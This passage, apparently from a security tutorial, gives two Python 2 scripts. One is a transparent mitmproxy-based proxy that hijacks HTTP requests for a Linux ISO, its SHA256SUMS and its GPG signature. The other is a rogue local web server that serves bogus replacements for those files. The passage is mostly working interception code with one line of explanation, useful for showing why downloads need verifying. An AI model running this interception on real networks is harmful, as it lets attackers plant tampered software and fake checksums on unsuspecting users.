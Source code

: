 {% highlight python %}
import os
from libmproxy import flow, proxy
from libmproxy.proxy.server import ProxyServer

# Files/directories being targeted, regardless of host.
TARGETS = [
    "/14.04.3/some_linux_distro.iso",
    "/14.04.3/SHA256SUMS.gpg",
    "/14.04.3/SHA256SUMS"
]

class Controller(flow.FlowMaster):
    def run(self):
        try:
            flow.FlowMaster.run(self)
        except KeyboardInterrupt:
            self.shutdown()

    def handle_request(self, f):
        f = flow.FlowMaster.handle_request(self, f)
        if f:
            if f.request.path in TARGETS:
                print "Hijacking HTTP request for " + f.request.path
                f.request.port = 80
                f.request.host = "127.0.0.1"
            f.reply()
        return f

    def handle_response(self, f):
        f = flow.FlowMaster.handle_response(self, f)
        if f:
            f.reply()
        return f

config = proxy.ProxyConfig(
    port=8080,
    mode="transparent"
)
state = flow.State()
server = ProxyServer(config)
mitm_proxy = Controller(server, state)
mitm_proxy.run()
{% endhighlight %}

The previous script monitors for HTTP requests asking for for files named like the entries of the <code class="inline">TARGETS</code> list, regardless of the server. When it sees that someone requested any of these files, the proxy will redirect that request to our rogue HTTP server, where our bogus files will be fetched from: 

{% highlight python %}
import SocketServer
import SimpleHTTPServer
from SimpleHTTPServer import SimpleHTTPRequestHandler

class MyHandler(SimpleHTTPRequestHandler):
    def translate_path(self, path):
        return "bogus_files/" + path.split("/")[-1]

httpd = SocketServer.TCPServer(("", 80), MyHandler)
httpd.serve_forever()
{% endhighlight %}
